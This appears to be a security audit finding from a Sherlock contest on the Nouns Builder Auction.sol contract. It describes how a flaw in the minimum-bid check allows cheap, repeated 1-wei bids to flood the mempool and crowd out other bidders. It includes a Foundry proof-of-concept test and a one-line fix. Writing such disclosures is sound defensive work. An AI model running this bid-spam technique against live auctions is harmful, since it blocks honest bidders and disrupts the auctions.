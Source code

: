 Nutty Rouge Toad

medium

# Perpetual small bids can DOS auction bidding

See `Auction.sol` code [here](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol)
See `Auction.sol::_createBid()` code [here](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/db232c649b425c36f5a93607c95cfdf0e5962b2f/nouns-protocol/src/auction/Auction.sol#L158-L231)

## Summary
Where an auction is set up with no `reservePrice`, or a very low one, a user can take advantage of inadequate `minBid` check to bombard the mempool with many tiny wei amounts and crowd out any other bids. 

## Vulnerability Detail
Unless the protocol specifically sets a `reservePrice` when initialising the `Auction.sol` contract for a token, the first bid in all auctions can be zero; passing check at `1)` below.
The next bid must be cannot also be 0, see check at `4)` preventing this, so user can put in a bid of `1 wei`.
All bids from here on out will be must be equal to or greater than the minBid, see check at `3)`.
`minBid` is calculated at `2)` and assuming `settings.minBidIncrement` has not been updated by the protocol; minBid will be 10% of `lastHighestBid`.

**Exploit:**
- For a `lastHighestBid` of `1 wei` the `minBid` calculation at `2)` will resolve to 1 wei every time 
- This means a bidder can bid many many bids of `1 wei`
- `createBid` will only cost `7532 gas` per execution which equates to millions of executions per dollar (at current gas price of `25 wei` it works out to 2.6 million executions
- User could increase gas in each of their transactions to ensure their transaction is picked up from the mempool and still send many many transactions
- This can effectively crowd out other bidders either by their transactions getting dropped or they themselves cancelling them
- As an added bonus, there is nothing preventing the attacker from using the same address for each bid so all the refunded amounts will go to the same account and withdrawable in one transaction

```solidity
    function _createBid(uint256 _tokenId) private {

       // SOME CODE //

        // If this is the first bid:
        if (lastHighestBidder == address(0)) {
            // Ensure the bid meets the reserve price
1)             if (msgValue < settings.reservePrice) {
                revert RESERVE_PRICE_NOT_MET();
            }

            // Else this is a subsequent bid:
        } else {
            // Used to store the minimum bid required
            uint256 minBid;

            // Cannot realistically overflow
            unchecked {
                // Compute the minimum bid
2)            minBid = lastHighestBid + ((lastHighestBid * settings.minBidIncrement) / 100);
            }

            // Ensure the incoming bid meets the minimum
3)         if (msgValue < minBid) {
                revert MINIMUM_BID_NOT_MET();
            }
            // Ensure that the second bid is not also zero
4)         if (minBid == 0 && msgValue == 0 && lastHighestBidder != address(0)) {
                revert MINIMUM_BID_NOT_MET();
            }

            // Refund the previous bidder
            _handleOutgoingTransfer(lastHighestBidder, lastHighestBid);
        }

        emit AuctionBid(_tokenId, msg.sender, msgValue, extend, auction.endTime);
    }
```

## Impact
An attacker can effectively DOS `Auction.sol::_createBid()` with a relatively cheap attack.
They congest the mempool with identical `1 wei bids` with priority gas fee such that other bidders either cancel their transactions because they aren't going through or the transactions are dropped from the mempool as they have been there too long.
More likely to be effective where there is a small amount of bids happening on an auction; e.g. less competing bids being sent to the mempool.

## Code Snippet
Add the following test to Auction.t.sol:

<details>
<summary>`_createBid()` POC</summary>

Single `createBid()` will cost `7532 gas`.
1000 `createBid()` loop will cost `21_608_065 gas`.

```solidity
    function test_perpetual_low_bids() public {
        deployMock();

        vm.startPrank(founder);
        auction.setReservePrice(0);

        auction.unpause();
        vm.stopPrank();

        (uint256 tokenId, , , , , ) = auction.auction();

        uint256 bid1 = 0; // 0 wei
        uint256 bid2 = 1; // 1 wei

        uint256 gasStart = gasleft();

        // attacker ensures first bid that goes through is 0 wei 
        vm.prank(bidder1);
        auction.createBid{ value: bid1 }(tokenId);

        uint256 gasEnd = gasleft();
        console.log("GAS USED:", gasStart - gasEnd); // 7532

        // assert 0 bid goes through correctly
        (, uint256 highestBidOriginal, address highestBidderOriginal, , , ) = auction.auction();
        assertEq(highestBidOriginal, bid1);
        assertEq(highestBidderOriginal, bidder1);

        uint256 totalGasUsed;

        for (uint256 i = 0; i < 1000; i++) {
            
            uint256 gas1 = gasleft();

            vm.prank(bidder1);
            auction.createBid{ value: bid2 }(tokenId);

            // assert 1000 bids goes through correctly each time
            (, uint256 highestBidOriginal, address highestBidderOriginal, , , ) = auction.auction();
            assertEq(highestBidOriginal, bid2);
            assertEq(highestBidderOriginal, bidder1);

            uint256 gas2 = gasleft();
            totalGasUsed += (gas1 - gas2);

            vm.warp(2 seconds);
        }

        console.log("totalGasUsed: ", totalGasUsed);
        // 100 * createBid() loop costs 2_167_418 gas which @ gasPrice: 25 and ethPrice: 2000 => $0.00000010843

    }

```

</details>

## Tool used
Foundry
Manual Review

## Recommendation
Update the `minBid` check operator to ensure that subsequent bids always increase. Even if it only increases by `1 wei` each time it will ensure that `settings.minBidIncrement` comes into effect in the minBid calculation:
 
```diff
-            if (msgValue < minBid) {
+           if (msgValue <= minBid) {
                revert MINIMUM_BID_NOT_MET();
            }
```

`settings.minBidIncrement` will begin increasing `minBid` when `lastHighestBid` reaches `10 wei`:

```solidity
            minBid = lastHighestBid + ((lastHighestBid * settings.minBidIncrement) / 100);
```